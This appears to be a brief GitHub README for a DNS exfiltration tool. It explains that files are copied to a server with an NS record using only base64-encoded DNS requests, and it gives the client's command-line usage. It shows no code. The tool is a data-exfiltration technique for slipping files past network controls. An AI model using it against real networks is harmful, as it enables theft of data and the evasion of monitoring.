 # dns_exfiltration
Simple DNS exfiltration using base64-encoded URL's

*Server Setup:*
server should be run on a machine with an NS record pointed at it.
Your domain will be used as the base url for the client.

*Client usage:*
```bash
client local_filename remote_filename base_url
```

watch as files are copied up to the server using only DNS requests.

